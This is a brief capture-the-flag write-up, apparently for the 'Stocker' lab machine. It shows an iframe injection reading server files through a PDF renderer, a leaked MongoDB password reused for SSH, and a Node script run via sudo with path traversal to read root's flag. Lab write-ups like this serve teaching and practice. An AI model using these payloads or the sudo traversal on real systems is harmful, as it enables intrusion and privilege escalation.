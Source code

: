 Stocker

# Enumeration
## Web
Angoose Garden

### Dev subdomain
file:///var/www/dev/pos/63d2f3c2a08e45a563a4213e.html
<iframe src=file:///var/www/dev/index.js height=1050px width=800px</iframe>

```javascript
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```

Username: angoose:IHeardPassphrasesArePrettySecure

# SSH
Bsondump of users.bson
angoose:b3e795719e2a644f69838a593dd159ac
```bash
$ cat << EOF > exploit.js
var exec = require('child_process').exec;

console.log('test')
exec('cat /root/root.txt',
function (error, stdout, stderr) {
        console.log('stdout: ' + stdout);
        console.log('stderr: ' + stderr);
        if (error !== null) {
             console.log('exec error: ' + error);
        }
    });
EOF

$ sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/exploit.js
```
